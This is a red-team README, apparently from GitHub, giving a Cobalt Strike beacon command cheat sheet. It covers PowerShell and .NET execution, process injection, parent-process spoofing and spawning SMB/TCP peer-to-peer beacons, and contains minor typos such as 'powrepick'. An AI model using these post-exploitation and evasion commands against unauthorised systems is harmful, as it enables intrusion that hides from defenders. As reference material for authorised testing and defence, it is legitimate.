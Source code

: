 <p align="center">
  <img width="500" height="100" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```css
sleep 60 50                                 ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution (Default)
```css
run [command]
```
#### Command Execution (powershell.exe)
```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
#### Command Execution (powerpick - using PS w/o powershell.exe)
```css
powrepick [cmdlet] [args]
```

#### Command Execution (psinject - using PS within another process)
```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

#### Command Execution (.NET)
```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

#### Command Execution (cmd.exe)
```css
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```
